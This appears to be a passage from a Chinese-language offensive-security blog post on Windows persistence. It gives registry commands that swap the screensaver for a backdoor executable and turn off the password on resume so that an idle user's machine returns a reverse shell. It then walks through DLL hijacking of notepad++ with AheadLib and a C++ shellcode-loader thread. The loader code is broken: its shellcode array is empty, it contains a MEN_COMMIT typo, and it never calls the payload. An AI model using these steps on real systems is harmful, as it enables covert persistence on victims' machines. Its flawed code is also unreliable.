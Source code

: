 执行以下命令，修改注册表

```shell 
#将屏幕保护程序的启动程序指向上传的后门程序,这里是scr和exe都可以
reg add "HKEY_CURRENT_USER\Control Panel\Desktop" /v SCRNSAVE.EXE /t REG_SZ /d "C:\Windows\System32\reverse_desktop.exe"
#将屏幕保护程序开启，设定值为1(默认为1)
reg add "HKEY_CURRENT_USER\Control Panel\Desktop" /v ScreenSaveActive /t REG_SZ /d 1
#设定不需要密码解锁
reg add "HKEY_CURRENT_USER\Control Panel\Desktop" /v ScreenSaverIsSecure /t REG_SZ /d "0"
#设定用户的超时时间,这里为60秒
reg add "HKEY_CURRENT_USER\Control Panel\Desktop" /v ScreenSaveTimeOut /t REG_SZ /d "60"
```

用户一段时间不活动后，即可收到返回的shell

### DLL劫持

通过将同名的恶意dll文件放在合法的dll文件所在路径前的搜索位置，在启动程序时会首先加载恶意的dll文件 ,可以利用DLL注入进行权限维持，需要拥有管理员权限

#### 劫持应用程序

以notepad++为例，通过process monitor观察notepad++加载的dll文件

![notepad++](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/prive-long/notepad%2B%2B.png)

发现一个名为mscoree.dll的文件丢失，我们可以创建一个同名的dll文件，并放到目标目录下进行加载，后续也没有继续加载该dll文件

(后面发现这个版本的notepad++找不到可以利用的dll文件，干脆演示一下做法)

找到可以利用的dll文件之后，通过AheadLib生成恶意利用的cpp文件

![aheadlib](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/prive-long/aheadlib.png)

编辑生成的cpp文件，添加DoMagic函数，用于添加恶意代码

```cpp
DWORD WINAPI DoMagic(LPVOID lpParameter) {
	unsigned char shellcode[] =


	void* exec = VirtualAlloc(0, sizeof shellcode, MEN_COMMIT, PAGE_EXECUTE_READWRITE);
	memcpy(exec, shellcode, sizeof shellcode);
	((void(*)())exec);
	return 0;
}
```

在shellcode处添加生成的恶意代码，在DllMain添加调用规则

```cpp
		HANDLE hThread = CreateThread(NULL, 0, DoMagic, 0, 0, 0);
		if (hThread) {
			CloseHandle(hThread);
		}
```
